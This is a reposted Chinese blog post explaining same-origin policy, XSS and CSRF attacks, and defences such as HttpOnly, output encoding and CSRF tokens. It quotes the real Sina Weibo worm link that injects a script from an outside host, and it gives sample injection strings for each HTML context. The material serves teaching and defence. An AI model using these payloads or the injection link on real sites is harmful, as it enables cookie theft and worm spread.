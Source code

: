 ```yaml
---
title: 浅谈XSS和CSRF
tags:
  - csrf
  - xss
url: 256.html
id: 256
categories:
  - 经验分享
date: 2014-08-24 14:03:34
---
```


### 同源策略（Same Origin Policy）

同源策略阻止从一个源加载的文档或脚本获取或设置另一个源加载的文档的属性。

如：

不能通过Ajax获取另一个源的数据；

JavaScript不能访问页面中iframe加载的跨域资源。

对 http://store.company.com/dir/page.html 同源检测

[![28230050-d605bfba1f1b48e081353243800c253c](http://storage.veitor.net/uploads/2014/08/28230050-d605bfba1f1b48e081353243800c253c.png)](http://storage.veitor.net/uploads/2014/08/28230050-d605bfba1f1b48e081353243800c253c.png)

### 跨域限制

1.  浏览器中，script、img、iframe、link等标签，可以跨域引用或加载资源。
2.  不同于 XMLHttpRequest，通过src属性加载的资源，浏览器限制了JavaScript的权限，使其不能读、写返回的内容。
3.  XMLHttpRequest 也受到也同源策略的约束，不能跨域访问资源。

### JSONP

为了解决 XMLHttpRequest 同源策略的局限性，JSONP出现了。

JSONP并不是一个官方的协议，它是利用script标签中src属性具有跨域加载资源的特性，而衍生出来的跨域数据访问方式。

### CORS(Cross-Origin Resource Sharing)

CORS，即：**跨域资源共享**。

这是W3C委员会制定的一个新标准，用于解决 XMLHttpRequest 不能跨域访问资源的问题。目前支持情况良好（特指移动端）。

想了解更多，可查看之前的文章：[《CORS(Cross-Origin Resource Sharing) 跨域资源共享》](http://www.cnblogs.com/maplejan/archive/2012/12/02/2797864.html)

* * *

XSS（Cross Site Script）
----------------------

XSS（Cross Site Script） 即：**跨站脚本攻击**。

本来缩写其应该是CSS，不过为了避免和CSS层叠样式表 （Cascading Style Sheets）重复，所以在安全领域叫做 XSS 。

### XSS 分类

XSS 主要分为两种形态

1.  反射型XSS（非持久型XSS）。需要诱惑用户去激活的XSS攻击，如：点击恶意链接。
2.  存储型XSS。混杂有恶意代码的数据被存储在服务器端，当用户访问输出该数据的页面时，就会促发XSS攻击。具有很强的稳定性。

### XSS Payload

XSS Payload，是指那些用于完成各种具体功能的恶意脚本。

由于实现XSS攻击可以通过JavaScript、ActiveX控件、Flash插件、Java插件等技术手段实现，下面只讨论JavaScript的XSS Payload。

通过JavaScript实现的XSS Payload，一般有以下几种：

1.  Cookie劫持
2.  构造请求
3.  XSS钓鱼
4.  CSS History Hack

### Cookie劫持

由于Cookie中，往往会存储着一些用户安全级别较高的信息，如：用户的登陆凭证。

当用户所访问的网站被注入恶意代码，它只需通过 _document.cookie _这句简单的JavaScript代码，就可以顺利获取到用户当前访问网站的cookies。

如果攻击者能获取到用户登陆凭证的Cookie，甚至可以绕开登陆流程，直接设置这个cookie的值，来访问用户的账号。

### 构造请求

JavaScript 可以通过多种方式向服务器发送GET与POST请求。

网站的数据访问和操作，基本上都是通过向服务器发送请求而实现的。

如果让恶意代码顺利模拟用户操作，向服务器发送有效请求，将对用户造成重大损失。

例如：更改用户资料、删除用户信息等...

### XSS钓鱼

关于网站钓鱼，详细大家应该也不陌生了。

就是伪造一个高度相似的网站，欺骗用户在钓鱼网站上面填写账号密码或者进行交易。

而XSS钓鱼也是利用同样的原理。

注入页面的恶意代码，会弹出一个想死的弹窗，提示用户输入账号密码登陆。

当用户输入后点击发送，这些资料已经去到了攻击者的服务器上了。

如：

[![28231056-882bbad839274f95a635ddbd128db3c4](http://storage.veitor.net/uploads/2014/08/28231056-882bbad839274f95a635ddbd128db3c4.png)](http://storage.veitor.net/uploads/2014/08/28231056-882bbad839274f95a635ddbd128db3c4.png)

### CSS History Hack

CSS History Hack是一个有意思的东西。它结合 浏览器历史记录 和 CSS的伪类：a:visited，通过遍历一个网址列表来获取其中<a>标签的颜色，就能知道用户访问过什么网站。

相关链接：

PS：目前最新版的Chrome、Firefox、Safari已经无效，Opera 和 IE8以下 还可以使用。

### XSS Worm

XSS Worm，即XSS蠕虫，是一种具有自我传播能力的XSS攻击，杀伤力很大。

引发 XSS蠕虫 的条件比较高，需要在用户之间发生交互行为的页面，这样才能形成有效的传播。一般要同时结合 反射型XSS 和 存储型XSS 。

案例：Samy Worm、新浪微博XSS攻击

### 新浪微博XSS攻击

这张图，其实已经是XSS蠕虫传播阶段的截图了。

攻击者要让XSS蠕虫成功被激活，应该是通过 私信 或者 @微博 的方式，诱惑一些微博大号上当。

当这些大号中有人点击了攻击链接后，XSS蠕虫就被激活，开始传播了。

[![28231427-6c93f6962f234f0a8576b1a8979da50e](http://storage.veitor.net/uploads/2014/08/28231427-6c93f6962f234f0a8576b1a8979da50e.png)](http://storage.veitor.net/uploads/2014/08/28231427-6c93f6962f234f0a8576b1a8979da50e.png)

这个XSS的漏洞，其实就是没有对地址中的变量进行过滤。

把上一页的链接decode了之后，我们就可以很容易的看出，这个链接的猫腻在哪里。

链接上带的变量，直接输出页面，导致外部JavaScript代码成功注入。

传播链接：http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update

把链接decode之后：http://weibo.com/pub/star/g/xyyyd"><script src=//www.2kt.cn/images/t.js></script>?type=update

[![28231439-beba435e8f8f4a97acdeee43ad981aef (1)](http://storage.veitor.net/uploads/2014/08/28231439-beba435e8f8f4a97acdeee43ad981aef-1.png)](http://storage.veitor.net/uploads/2014/08/28231439-beba435e8f8f4a97acdeee43ad981aef-1.png)

相关XSS代码这里就不贴了，Google一下就有。

其实也要感谢攻击者只是恶作剧了一下，让用户没有造成实际的损失。

网上也有人提到，如果这个漏洞结合XSS钓鱼，再配合隐性传播，那样杀伤力会更大。

* * *

XSS 防御技巧
--------

### HttpOnly

服务器端在设置安全级别高的Cookie时，带上HttpOnly的属性，就能防止JavaScript获取。

PHP设置HttpOnly：

<?
header("Set-Cookie: a=1;", false);
header("Set-Cookie: b=1;httponly", false);
setcookie("c", "1", NULL, NULL, NULL, NULL, ture);

 

PS：手机上的QQ浏览器4.0，居然不支持httponly，而3.7的版本却没问题。测试平台是安卓4.0版本。

估计是一个低级的bug，已经向QQ浏览器那边反映了情。

截止时间：2013-01-28

 

### 输入检查

**任何用户输入的数据，都是“不可信”的。**

输入检查，一般是用于输入格式检查，例如：邮箱、电话号码、用户名这些...

都要按照规定的格式输入：电话号码必须纯是数字和规定长度；用户名除 中英文数字 外，仅允许输入几个安全的符号。

输入过滤不能完全交由前端负责，前端的输入过滤只是为了避免普通用户的错误输入，减轻服务器的负担。

因为攻击者完全可以绕过正常输入流程，直接利用相关接口向服务器发送设置。

所以，前端和后端要做相同的过滤检查。

### 输出检查

相比输入检查，前端更适合做输出检查。

可以看到，HttpOnly和前端没直接关系，输入检查的关键点也不在于前端。

那XSS的防御就和前端没关系了?

当然不是，随着移动端web开发发展起来了，Ajax的使用越来越普遍，越来越多的操作都交给前端来处理。

前端也需要做好XSS防御。

JavaScript直接通过Ajax向服务器请求数据，接口把数据以JSON格式返回。前端整合处理数据后，输出页面。

所以，前端的XSS防御点，在于输出检查。

但也要结合**XSS可能发生的场景**。

### XSS注意场景

**在HTML标签中输出**

如：<a href=# >{$var}</a>

风险：{$var} 为 <img src=# onerror="/xss/" />

防御手段：变量HtmlEncode后输出

**在HTML属性中输出**

如：<div data-num="{$var}"></div>

风险：{$var} 为 " onclick="/xss/

防御手段：变量HtmlEncode后输出

**在<script>标签中输出**

如：<script>var num = {$var};</script>

风险：{$var} 为 1; alert(/xss/)

防御手段：确保输出变量在引号里面，再让变量JavaScriptEncode后输出。

**在事件中输出**

如：<span onclick="fun({$var})">hello!click me!</span>

风险：{$var} 为 ); alert(/xss/); //

防御手段：确保输出变量在引号里面，再让变量JavaScriptEncode后输出。

**在CSS中输出**

一般来说，尽量禁止用户可控制的变量在<style>标签和style属性中输出。

**在地址中输出**

如：<a href="http://3g.cn/?test={$var}">

风险：{$var} 为 " onclick="alert(/xss/)

防御手段：对URL中除 协议(Protocal) 和 主机(Host) 外进行URLEncode。如果整个链接都由变量输出，则需要判断是不是http开头。

### HtmlEncode

对下列字符实现编码

&     ——》    &amp;

<     ——》    &lt;

>     ——》    &gt;

"    ——》    &quot;

'    ——》    &#39; （IE不支持&apos;）

/      ——》    &#x2F;

### JavaScriptEncode

对下列字符加上反斜杠

"    ——》    \\"

'    ——》    \\'

\      ——》    \\\

\\n    ——》    \\\n

\\r     ——》    \\\r      (Windows下的换行符)

例子： "\\\".replace(/\\\/g, "\\\\\\");  //return \\\

推荐一个JavaScript的模板引擎：[**artTemplate**](http://aui.github.com/artTemplate/%20)

### URLEncode

使用以下JS原生方法进行URI编码和解码：

*   encodeURI
*   decodeURI
*   decodeURIComponent
*   encodeURIComponent

* * *

CSRF（Cross-site request forgery）
--------------------------------

[![28232804-51bdd6fb20674c99a3af90124348859c](http://storage.veitor.net/uploads/2014/08/28232804-51bdd6fb20674c99a3af90124348859c.png)](http://storage.veitor.net/uploads/2014/08/28232804-51bdd6fb20674c99a3af90124348859c.png)

 

CSRF 即：**跨站点请求伪造**

网站A ：为恶意网站。

网站B ：用户已登录的网站。

当用户访问 A站 时，A站 私自访问 B站 的操作链接，模拟用户操作。

假设B站有一个删除评论的链接：http://b.com/comment/?type=delete&id=81723

A站 直接访问该链接，就能删除用户在 B站 的评论。

### CSRF 的攻击策略

因为浏览器访问 B站 相关链接时，会向其服务器发送 B站 保存在本地的Cookie，以判断用户是否登陆。所以通过 A站 访问的链接，也能顺利执行。

* * *

CSRF 防御技巧
---------

 

### 验证码

几乎所有人都知道验证码，但验证码不单单用来防止注册机的暴力破解，还可以有效防止CSRF的攻击。

验证码算是对抗CSRF攻击最简洁有效的方法。

但使用验证码的问题在于，不可能在用户的所有操作上都需要输入验证码。

只有一些关键的操作，才能要求输入验证码。

不过随着HTML5的发展。

利用canvas标签，前端也能识别验证码的字符，让CSRF生效。

### Referer Check

Referer Check即来源检测。

HTTP Referer 是 Request Headers 的一部分，当浏览器向web服务器发出请求的时候，一般会带上Referer，告诉服务器用户从哪个站点链接过来的。

服务器通过判断请求头中的referer，也能避免CSRF的攻击。

### Token

CSRF能攻击成功，根本原因是：操作所带的参数均被攻击者猜测到。

既然知道根本原因，我们就对症下药，利用Token。

当向服务器传参数时，带上Token。这个Token是一个随机值，并且由服务器和用户同时持有。

Token可以存放在用户浏览器的Cookie中，

当用户提交表单时带上Token值，服务器就能验证表单和Cookie中的Token是否一致。

（前提，网站没有XSS漏洞，攻击者不能通过脚本获取用户的Cookie）

原文地址：http://www.cnblogs.com/alilang/archive/2013/01/29/2880843.html